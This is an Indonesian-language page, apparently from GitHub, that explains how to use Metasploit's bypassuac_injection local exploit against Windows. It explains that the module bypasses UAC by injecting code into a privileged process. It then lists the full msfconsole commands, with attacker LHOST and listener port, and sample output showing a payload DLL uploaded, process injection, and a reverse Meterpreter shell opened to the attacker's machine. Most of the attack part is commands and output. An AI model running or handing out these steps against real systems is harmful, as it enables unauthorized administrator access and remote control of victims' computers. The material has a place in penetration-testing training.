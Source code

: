 # bypassuac_injection

Modul `bypassuac_injection` di Metasploit adalah modul `exploit local` untuk sistem Windows yang digunakan untuk melewati mekanisme User Account Control (`UAC`) dengan menyuntikkan kode ke dalam proses berizin tinggi, memungkinkan eskalasi hak akses ke level `administrator` tanpa interaksi pengguna atau prompt `UAC`.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac_injection
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[+] Windows 7 Service Pack 1 may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Uploading the Payload DLL to the filesystem...
[*] Payload DLL 9216 bytes long being uploaded..
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Injecting  into process ID 4016
[*] Opening process 4016
[*] Injecting struct into 4016
[*] Executing payload
[+] Successfully injected payload in to process: 4016
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\AppData\Local\Temp\DFWlaRNL.dll
[*] Meterpreter session 13 opened (192.168.1.11:4444 -> 192.168.1.53:49160) at 2025-05-17 05:45:29 +0700

meterpreter >
```
